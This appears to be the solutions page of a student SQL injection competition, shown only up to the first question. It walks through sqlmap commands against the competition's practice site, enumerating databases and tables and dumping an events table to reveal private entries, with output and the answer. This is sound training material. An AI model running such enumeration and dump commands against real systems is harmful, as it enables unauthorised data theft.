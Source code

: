 # SQL Injection Competition
## About
This page contains the solutions for the competition. A text solution is provided for each question.

## Contents
- [Question 1](#question-1)
- [Question 2](#question-2)
- [Question 3](#question-3)
- [Question 4](#question-4)
- [Question 5](#question-5)
- [Question 6](#question-6)
- [Question 7](#question-7)
- [Question 8](#question-8)

## Question 1
__Question:__ The events page is only supposed to show public events. How many events are there in total (including privates ones)?

__Answer:__ 14

__Solution:__

The events pages contains a search bar which allows you to search for events in the database. 

You could enter a query, submit the form and get the url `https://sql.cybersoc.org.uk/events?query=t`. This contains the get parameter that is vulnerable to SQL injection.

Using SQLMap, you could provide the command `sqlmap -u "https://sql.cybersoc.org.uk/events?query=t" -dbs`. This would return:
```
available databases [3]:
[*] boat_club
[*] information_schema
[*] performance_schema
```

From the output, the database that is being used is `boat_club`. You could then run the command `sqlmap -u "https://sql.cybersoc.org.uk/events?query=t" -D boat_club --tables`. This specifies the database that we are interested in and allows us to see the tables in the databases. This would return:
```
Database: boat_club
[3 tables]
+--------+
| boats  |
| events |
| users  |
+--------+
```

From the tables output, the table `events` is where all the events are being stored. To find the answer to the question, you could run `sqlmap -u "https://sql.cybersoc.org.uk/events?query=t" -D boat_club -T events --dump`. This specifies the database and table that were are interested in, and will output the contents of the table from the dump command. This would return (only the id, title and public columns are shown here due to space):
```
Database: boat_club
Table: events
[14 entries]
+----+---------------------------------+--------+
| id | title                           | public |
+----+---------------------------------+--------+
| 1  | Spring Festival 2022            | 1      |
| 2  | Dinner with Chris               | 0      |
```